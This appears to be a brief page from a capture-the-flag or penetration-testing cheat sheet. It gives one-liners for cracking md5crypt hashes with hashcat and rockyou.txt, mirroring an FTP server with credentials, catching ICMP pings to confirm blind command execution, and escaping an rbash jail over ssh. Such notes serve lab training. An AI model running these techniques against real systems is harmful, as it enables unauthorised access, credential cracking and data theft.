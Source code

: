 # Miscellaneous

hashcat -a 0 -m 500 hash /root/Downloads/rockyou.txt --force

scp important.txt ubuntu@192.168.1.30:/home/ubuntu/transferred.txt

wget -m ftp://ftpuser:givemefiles777@10.10.94.48

python -m pyftpdlib 21\


{% embed url="https://github.com/PinkDraconian/CTF-bash-tools" %}

### TCPDUMP LISTENER

Start a tcpdump listener on your local machine.

**If using your own machine with the VPN connection, use:**

* `sudo tcpdump ip proto \\icmp -i tun0`

**If using the Ethernet, use:**

* `sudo tcpdump ip proto \\icmp -i eth0`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

**ping \<ATTACKER IP> -c 4**

****

If we know the  ssh credentials of the user who is part of rbash shell, then you can use the following command along ssh to break the jail and bypass the rbash by accessing proper bash shell.

`ssh seppuku@192.168.53.90 -t "bash --noprofile"`

